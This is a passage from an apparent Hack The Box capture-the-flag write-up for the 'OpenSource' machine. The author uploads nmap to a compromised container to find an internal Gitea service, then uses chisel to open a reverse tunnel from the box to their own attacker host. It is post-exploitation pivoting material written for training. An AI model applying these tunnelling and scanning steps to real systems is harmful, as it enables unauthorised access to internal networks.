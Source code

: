 Uploaded nmap using the file upload feature:

[static-binaries/nmap at master · andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

```bash
/app/public/uploads # ./nmap 10.129.68.116 -p 3000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-05-23 09:48 GMT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.129.68.116
Host is up (0.000095s latency).
PORT     STATE SERVICE
3000/tcp open  unknown
```

## Port 3000 - Gitea v.1.16.6

Uploaded chisel on the box and performed a reverse tcp tunnel to port 3000:

[Releases · jpillora/chisel](https://github.com/jpillora/chisel/releases)

```bash
┌──(maoutis㉿kali)-[~/CTF/HTB/OpenSource/exploit]
└─$ ./chisel_1.7.7_linux_amd64 server -p 3000 --reverse
2022/05/23 13:20:13 server: Reverse tunnelling enabled
2022/05/23 13:20:13 server: Fingerprint fm9tUZlKfgimQ9iuIXsEGwfgoo8om8q5kAP2SBMVJb4=
2022/05/23 13:20:13 server: Listening on http://0.0.0.0:3000
```

```bash
/app/public/uploads # ./chisel_1.7.7_linux_amd64 client 10.10.14.46:3000 R:3001:10.129.68.116:3000
2022/05/23 11:22:55 client: Connecting to ws://10.10.14.46:3000
2022/05/23 11:22:55 client: Connected (Latency 39.166891ms)
```

![OpenSource%20f45f07afdacd4cfaab930db6a8f3f493](../../zzz_res/attachments/OpenSource%20f45f07afdacd4cfaab930db6a8f3f493%208.png)
